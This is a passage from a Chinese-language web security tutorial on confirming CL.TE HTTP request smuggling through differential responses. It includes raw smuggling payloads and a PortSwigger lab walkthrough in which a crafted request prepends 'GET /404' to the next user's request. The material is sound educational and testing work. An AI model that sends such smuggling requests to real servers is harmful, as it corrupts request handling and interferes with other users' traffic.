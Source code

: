 该请求通常会收到状态代码为 200 的 HTTP 响应，其中包含一些搜索结果，干扰这个请求所需的攻击请求取决于存在的请求走私的变体:CL.TE vs TE.CL，这里我们以 CL.TE 为例：

```bash
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果攻击成功，那么后端服务器会将该请求的最后两行视为接收到的下一个请求，这将导致后续的"正常"请求如下所示，由于这个请求现在包含一个无效的 URL，服务器将用状态代码 404 响应，表明攻击请求确实干扰了：

```bash
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场来介绍具体的 fuzzing：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)  
测试流程：  
Step 1：访问上述靶场地址并点击"ACCESS THELAB"进入靶场

[![](assets/1704418275-1a32c04ec66ffd2d7b85c04e436c2e9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154617-2da97c7e-aa0c-1.png)

Step 2：随意抓取一个数据包并构造以下 Fuzzing 请求

```bash
POST / HTTP/1.1
Host: 0ae900850431f4b482522fd000e3007d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-05e97ce712b71758f4c8bdedda9eedf0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154646-3eedd8b8-aa0c-1.png)  
第二个包请求后会给一个 404 响应
